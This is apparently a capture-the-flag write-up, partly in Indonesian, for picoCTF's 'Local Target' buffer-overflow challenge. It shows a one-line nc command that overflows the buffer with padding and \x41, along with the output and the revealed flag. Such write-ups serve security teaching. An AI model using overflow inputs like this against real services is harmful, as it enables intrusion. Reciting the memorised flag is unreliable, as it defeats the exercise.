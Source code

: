 <h1>Local Target</h1>
<h3>Description</h3>
<pre>
Smash the stack
Can you overflow the buffer and modify the other local variable? The program is available <a href='https://artifacts.picoctf.net/c/517/local-target'>here</a>. You can view source <a href='https://artifacts.picoctf.net/c/517/local-target.c'>here</a>. And connect with it using:
nc saturn.picoctf.net 60327
</pre>
<h3>Solution</h3>
<p>Check batas bufferoverflow input</p>

```console
┌──(root㉿Kali)-[/home/venom/Downloads]
└─# echo -e "aaaaaaaaaaaaaaaaaaaaaaaa\x41" | nc saturn.picoctf.net 60327
Enter a string: 
num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
```
<p>\x41 Hexa = 65 Desimal atau "A"</p>

<h3>Flag</h3>
<pre>
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
</pre>
